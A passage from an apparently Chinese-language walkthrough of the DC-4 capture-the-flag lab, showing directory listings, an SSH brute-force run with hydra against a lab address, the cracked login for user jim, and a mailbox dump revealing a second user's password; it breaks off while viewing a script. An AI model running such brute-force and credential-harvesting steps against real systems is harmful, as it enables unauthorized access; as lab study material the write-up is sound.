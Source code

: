 ```

/home/:
charles
jim
sam

/home/charles:

/home/jim:
backups
mbox
test.sh

/home/jim/backups:
old-passwords.bak

/home/sam:

```
* 有个老密码字典，应该是提供给爆破ssh用
* mbox 猜测是有邮件信息
4. 拿着密码字典去爆破ssh
> hydra -L users.txt -P jimpass.txt ssh://172.16.0.16 -t 6 -f -vV
- 得到用户 jim 密码 jibril04，SSH登陆，登陆提示 邮件，查看/var/mail查看邮件内有charles的密码
```
[22][ssh] host: 172.16.0.16   login: jim   password: jibril04
```

```
im@dc-4:/var/mail$ cat jim 
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
        (envelope-from <charles@dc-4>)
        id 1hCjIX-0000kO-Qt
        for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charle
```
- 查看test.sh文件，发现是个小脚本文件，猜测后续能用上
```
jim@dc-4:~$ cat test.sh 
#!/bin/bash
for i in {1..5}
do
```